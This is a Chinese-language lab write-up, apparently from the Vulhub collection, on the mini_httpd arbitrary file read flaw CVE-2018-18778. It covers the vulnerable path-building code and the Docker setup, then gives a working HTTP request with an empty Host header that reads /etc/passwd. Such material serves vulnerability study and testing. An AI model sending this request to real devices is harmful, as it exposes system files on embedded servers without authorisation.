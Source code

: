 # mini_httpd任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

```c
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

见上述代码，分析如下：

- 当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
- 当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

## 环境搭建

Vulhub执行如下命令启动mini_httpd 1.29：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Web页面。

## 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：

```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功访问文件`/etc/passwd`：

![image-20220226215232309](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262152435.png)


